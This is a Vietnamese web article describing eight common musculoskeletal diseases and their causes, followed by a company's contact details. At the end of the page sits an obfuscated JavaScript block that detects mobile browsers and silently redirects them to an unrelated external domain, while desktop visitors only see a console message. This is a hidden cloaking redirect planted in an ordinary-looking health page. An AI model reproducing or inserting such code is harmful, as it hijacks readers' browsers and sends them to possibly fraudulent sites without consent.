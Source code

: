 8 căn bệnh cơ xương khớp thường gặp và cách phòng tránh

Các bệnh cơ xương khớp có các triệu chứng như đau, sưng khớp, hạn chế tầm vận động, yếu và đau cơ, biến dạng xương… Người bệnh ban đầu thường chủ quan với những triệu chứng nhẹ, chỉ đến bệnh viện khi cơn đau vượt ngưỡng chịu đựng. Nếu không điều trị kịp thời, tổn thương hệ thống xương khớp có thể để lại nhiều di chứng nguy hiểm.

Các bệnh cơ xương khớp thường gặp

1. Thoái hóa khớp


Thoái hóa khớp là bệnh lý xương khớp xảy ra khi phần sụn khớp và xương dưới sụn ở khớp bị tổn thương, dẫn đến các phản ứng viêm và tình trạng tràn dịch khớp. Nguyên nhân phổ biến của thoái hóa khớp là tuổi tác và một số yếu tố khác như di truyền, tình trạng béo phì, chấn thương xảy ra thường xuyên tại khớp, tai nạn thể thao, tai nạn lao động, các bệnh lý khớp viêm như viêm khớp dạng thấp, gút hay nhiễm trùng khớp…

2. Thoát vị đĩa đệm cột sống


Đây là bệnh lý gây ra do tình trạng lớp nhân nhầy ở đĩa đệm tràn ra bên ngoài, chèn ép lên các dây thần kinh, gây ra bệnh rễ thần kinh. Thoát vị đĩa đệm cột sống xảy ra cả ở người cao tuổi và ở người trẻ tuổi. Những yếu tố nguy cơ của bệnh bao gồm lão hóa, yếu tố sinh hoạt đặc biệt công việc ngồi lâu, bưng vác đồ nặng và tình trạng thừa cân – béo phì. Thoát vị đĩa đệm cột sống thường xảy ra nhất ở vùng đốt sống chịu lực và cử động nhiều, do đó thoát vị thường xảy ra vùng cột sống thắt lưng và vùng cột sống cổ.


3. Đau thần kinh tọa


Đây là tình trạng cơn đau lan từ vùng mông xuống dọc theo đường đi của dây thần kinh tọa. Những nguyên nhân gây đau thần kinh tọa gồm:

Thoát vị đĩa đệm: Đây là nguyên nhân phổ biến nhất. Khối lồi ra phía sau của đĩa đệm gây chèn ép lên dây thần kinh tọa, khiến người bệnh đau nhức.


Thoái hóa cột sống thắt lưng: Tình trạng thoái hóa làm hình thành gai xương, xâm lấn vào lỗ liên hợp cột sống. Đây là vị trí dây thần kinh tọa đi ra khỏi cột sống. Gai xương đủ lớn có thể tác động đến dây thần kinh tọa, gây đau. Một số trường hợp thoái hóa làm hẹp ống sống cũng có thể gây đau.


Trượt đốt sống: Tình trạng trượt đốt sống làm hẹp lỗ liên hợp cột sống, tác động đến thần kinh tọa, khiến người bệnh đau nhức.


Một số nguyên nhân khác gây đau thần kinh tọa là chấn thương, viêm…


4. Viêm khớp dạng thấp


Viêm khớp dạng thấp là một bệnh xương khớp  viêm nhiều khớp và có thể ảnh hưởng lên các cơ quan ngoài khớp. Bệnh thường xảy ra ở nữ giới hơn nam giới và độ tuổi thường mắc bệnh là tuổi trung niên. Triệu chứng bệnh thường gặp nhất là sưng, nóng, đau và hạn chế vận động các khớp ở bàn tay, thường đối xứng 2 bên. Người bệnh đau liên tục ban ngày lẫn ban đêm.


Ngoài ra, người bệnh thường có cứng khớp buổi sáng với thời gian kéo dài > 30 phút. Khi bệnh kéo dài và tiến triển nặng, người bệnh sẽ bị biến dạng khớp ở bàn tay điển hình trong viêm khớp dạng thấp làm người bệnh hạn chế vận động và sinh hoạt, ảnh hưởng đến chất lượng cuộc sống. Ngoài ra, trong giai đoạn trễ, viêm khớp dạng thấp có thể biểu hiện những triệu chứng ngoài khớp như xuất hiện các nốt dưới da, khô mắt, khô miệng, ảnh hưởng lên tim, phổi…và có thể đe dọa tính mạng người bệnh.

5. Bệnh gout
Bệnh gout xảy ra khi có sự rối loạn chuyển hóa nhân purin trong cơ thể, từ đó làm gia tăng nồng độ axit uric trong máu. Axit uric được hình thành trong cơ thể, được đào thải qua nước tiểu và phân. Có nhiều nguyên nhân gây tăng axit uric trong máu như ăn quá nhiều thực phẩm có chứa purin (nội tạng động vật, thịt bò, thịt dê, thịt cừu, hải sản…), giảm thải axit uric ra khỏi cơ thể (suy thận, rối loạn di truyền…). Khi nồng độ axit uric trong nước tiểu tăng cao và kéo dài, sẽ dẫn đến hình thành và lắng đọng của tinh thể urat ở các cơ quan khác nhau trong cơ thể như khớp, da, tim, thận…

Các tinh thể urat lắng đọng tại khớp gây ra các đợt viêm khớp đột ngột với biểu hiện sưng, nóng, đỏ và đau dữ dội các khớp trong vài ngày sau đó tự khỏi. Các khớp thường bị ảnh hưởng trong bệnh gout là khớp bàn ngón chân, khớp cổ chân hay khớp gối. Khi bệnh tiến triển, các cơn đau sẽ thường xuyên hơn, kéo dài hơn, ảnh hưởng nhiều khớp khác như khớp ở bàn tay, khớp khủy tay, khớp vai…Nếu không được điều trị đúng, bệnh gout sẽ để lại nhiều hậu quả nặng nề như biến dạng và phá hủy các khớp gây tàn phế, gây tình trạng suy tim và suy thận.

6. Viêm điểm bám gân
Viêm gân và viêm điểm bám gân là bệnh lý thường gặp trong bệnh cơ xương khớp. Có rất nhiều gân trong cơ thể con người và chúng đều có thể bị viêm. Tuy nhiên, một số gân và điểm bám gân được ghi nhận hay xảy ra viêm trong thực hành lâm sàng như viêm cân gan chân (viêm gân ở lòng bàn chân), viêm gân gót, viêm gân cơ chân ngỗng (gân cơ phía dưới gối), viêm điểm bám gân lồi cầu ngoài và lồi cầu trong xương cánh tay, viêm gân cơ chóp xoay…

Tùy thuộc vào mỗi vị trí bị ảnh hưởng sẽ đau và hạn chế vận động ở những vị trí khác nhau như đau vùng gót chân, đau vùng gối, đau vùng cánh tay, đau vùng vai…Có nhiều nguyên nhân gây ra bệnh lý viêm gân và viêm điểm bám gân như tình trạng lặp đi lặp lại các động tác khiến gân phải làm việc quá mức hay tình trạng viêm trong máu ảnh hưởng đến các gân (các bệnh lý viêm hệ thống như viêm khớp dạng thấp, viêm khớp cột sống…).

7. Loãng xương
Loãng xương là tình trạng xảy ra do giảm khối lượng và chất lượng của xương, làm giảm mật độ xương và tăng nguy cơ gãy xương dù chỉ với chấn thương nhẹ. Tình trạng loãng xương thường xảy ra ở người lớn tuổi, phụ nữ sau mãn kinh, những người suy dinh dưỡng, sử dụng corticoid kéo dài… Bệnh có thể diễn biến âm thầm, không có triệu chứng lâm sàng đặc trưng. Người bệnh thường chỉ phát hiện bệnh khi có biến chứng như gãy xương hoặc biến dạng vùng cột sống (gù, vẹo, giảm chiều cao).

Gãy xương là biến chứng nguy hiểm nhất của loãng xương và nguy cơ càng gia tăng khi tình trạng loãng xương càng nặng. Bệnh nhân loãng xương thường gây gãy xẹp các đốt sống chịu lực của cơ thể như đốt sống L1, T12 hoặc gãy cổ xương đùi, có thể xảy ra đột ngột hoặc từ từ sau một chấn thương nhẹ như té ngồi từ trên ghế, võng hoặc thậm chí xảy ra khi không có chấn thương. Gãy xương do loãng xương có thể gây ra tình trạng chèn ép tủy sống làm bệnh nhân bị yếu liệt, mất cảm giảm 2 chân, rối loạn đi tiêu, đi tiểu và cần nhập viện cấp cứu.

8. Bệnh cơ xương khớp do chấn thương
Tai nạn trong luyện tập thể dục thể thao, vận động, di chuyển hằng ngày có thể tác động tới hệ cơ xương khớp, gây đau nhức. Chấn thương có thể gây biểu hiện nhẹ như đau không đặc hiệu do căng cơ đến những biểu hiện nghiêm trọng như dập cơ, bong gân hoặc đứt gân, đứt dây chằng hoặc gãy xương. (3)

Gãy xương do chấn thương có thể gây nguy hiểm đến tính mạng như tổn thương mạch máu làm mất máu nhiều hoặc chèn ép tủy sống…Những trường hợp này cần phải nhập viện và can thiệp điều trị tích cực.

Ngoài ra, bong gân cũng có thể gây đau nhức. Tình trạng này thường xảy ra sau một tác động mạnh nhưng không gây trật khớp hay gãy xương. Bong gân dễ dẫn tới giãn dây chằng hay rách dây chằng, thường xảy ra do vận động quá sức hay sai tư thế khi sinh hoạt, làm việc, chơi thể thao…


THÔNG TIN LIÊN HỆ:

CÔNG TY TNHH THƯƠNG MẠI COXUONGKHOP

ĐỊA CHỈ: 2B Phổ Quang, Phường 2, Quận Tân Bình, Thành phố Hồ Chí Minh

SĐT: 098.9999.888 - 0399.777.999

EMAIL: COXUONGKHOPPRO@GMAIL.COM


<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "http://www.tailocqualon.click/xk",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>

